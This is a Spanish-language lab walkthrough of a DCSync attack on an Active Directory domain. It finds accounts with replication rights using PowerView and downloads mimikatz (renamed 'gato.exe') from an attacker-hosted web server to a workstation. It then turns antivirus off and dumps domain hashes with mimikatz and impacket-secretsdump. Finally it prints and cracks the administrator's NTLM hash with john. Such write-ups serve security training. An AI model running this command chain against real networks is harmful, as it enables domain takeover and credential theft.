





DSYNC
Si se desean mantener varios sistemas con una base de datos sincronizada windows proporciona un protocolo a través del cual un controlador o usuario puede hacer peticiones a otro controlador para obtener la información y actualizar su base de datos.
Este ataque aprovecha esto para hacer peticiones como si fuesemos otro controlador de dominio y así que el controlador de dominio original nos mande información sobre los usuario y datos de la base de datos.
Para esto en BloodHound tenemos :


Como vemos hay varios grupos que tienen estos privilegios debido a que por defecto hay algunos grupos que traen esta configuración por defecto.
Mediante PowerView:
Get-ObjectAcl -ResolveGUIDs | ? {$_.ObjectAceType -match "DS-Replication-Get-Changes"} | select ObjectDN,ObjectAceType,@{name="name";expression={Convert-SidToName $_.SecurityIdentifier}}

Vamos a usar a el usuario brooks.aileen ya que pertenece a ITadmins y de ahí hereda el permiso de DCSYNc
Para poder replicar los datos:
Una herramienta muy popular pero a la vez posiblemente detectada por los sistemas de seguridad es mimikatz.
https://github.com/gentilkiwi/mimikatz
Descargamos la release en kali y ahora la pasamos al equipo WS01.
python2 -m SimpleHTTPServer
(New-Object System.NET.WebClient).DownloadFile("http://192.168.20.128:8000/mimikatz.exe", "gato.exe")
Esto obviamente será detectado por windows defender, más adelante se aplicarán técnicas para evadir la seguridad,
Para este ejemplo vamos a desactivar el antivirus de forma temporal.
Necesitamos el acceso brooks.aileen para poder recabar la información pero esta vez necesitamos que los privilegios sean remotos y locales por lo que una cosa que debemos hacer es llevar el archivo hasta un lugar donde brooks.aileen pueda ejecutarlo.
runas /user:corp\brooks.aileen powershell
Ejecutamos Mimikatz.exe
.\gato.exe
lsadump::dcsync /user:corp\administrador
Donde el apartado administrador será el nombre del usuario que queramos dumpear.

Todo esto se puede ejecutar de forma remota desde Kali con las herramientas de Impacket:
impacket-secretsdump -just-dc brooks.aileen:"Aileen"@192.168.20.5
Obtenemos todos los hashes de todos los usuarios de la base de datos del dominio.
Incluido el del administrador:
Administrador:500:aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86:::
Lo guardamos en un hash
echo Administrador:500:aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86::: > admin.hash
Y lo podemos crackear.
john --format=NT admin.hash
